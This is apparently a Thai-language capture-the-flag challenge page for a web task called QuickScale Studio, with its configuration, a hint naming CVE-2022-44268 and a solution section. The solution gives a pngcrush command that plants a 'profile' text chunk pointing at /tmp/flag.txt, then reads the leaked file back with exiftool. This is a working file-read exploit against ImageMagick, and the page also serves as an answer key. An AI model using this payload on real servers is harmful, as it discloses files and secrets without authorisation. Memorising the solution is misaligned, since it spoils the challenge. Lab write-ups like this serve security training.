 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500 |

สมชายเขาได้ประสบปัญหากับการที่จะที่อยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถ ย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค github repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ `/tmp/flag.txt` คืออะไรหน่อยสิ ทำไม่ได้ละสิหึ

Format: `CSUBRU{...}`

---

## Hints

- CVE-2022-44268: ImageMagick profile injection

---

## Configuration

| Name | Value |
| :- | :- |
| Title | QuickScale Studio |
| Type | Dynamic Container |
| Category | Web |
| Max Attempts Allowed |  |
| Blood Bonus |  |
| Container Image | `ic-quick-scale-studio` |
| Service Port | 80 |
| CPU Limit (0.1 CPUs) |  |
| Memory Limit (MB) |  |
| Storage Limit (MB) |  |

### Flags

- `CSUBRU{...}`

### Build

- `docker build -t quickscale .`

---

## Analysis

1. สร้าง PNG ที่แทรก text profile ชี้ไปที่ `/tmp/flag.txt`
   ```bash
   pngcrush -text a "profile" "/tmp/flag.txt" test.png payload.png
   ```
2. อัปโหลดไฟล์ payload แล้วดาวน์โหลดรูปที่เว็บประมวลผลให้
3. อ่านข้อมูลโปรไฟล์ที่ฝังมา
   ```bash
   exiftool -b payload.png
   ```
4. ข้อความที่เปิดได้คือ flag
